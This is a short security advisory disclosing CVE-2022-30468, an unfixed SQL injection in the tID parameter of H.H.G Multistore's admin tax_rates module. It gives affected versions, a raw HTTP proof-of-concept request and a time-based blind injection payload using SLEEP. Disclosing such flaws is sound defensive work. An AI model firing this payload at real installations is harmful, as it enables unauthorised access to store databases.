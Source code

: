 # CVE-2022-30468 (H.H.G Multistore)

**CVE-ID:** CVE-2022-30468

**Affected Product:** H.H.G Multistore

**Affected Versions:** Enterprise Edition <= 5.1.0; Community Edition <= 4.10.3

**Vulnerability:** SQL-Injection

**Vendor URL:** [https://www.hhg-multistore.com](https://www.hhg-multistore.com)

**Status:** Unfixed (the Software is EoL)

**Severity:** High


## Timeline
- 2022-05-14: Discovery


## Description
The `tID` parameter in the `tax_rates` module is vulnerable to SQL-Injection.

## Proof of Concept
```
GET /admin/index.php?module=tax_rates&tID=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: HHGsid=1834c426aaf341d09a7942a3990d720a
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Payload:
```
GET /admin/index.php?module=tax_rates&tID=module=tax_rates&tID=1'%20AND%20(SELECT%203172%20FROM%20(SELECT(SLEEP(5)))Wjjj)--%20- HTTP/1.1
[...]
```
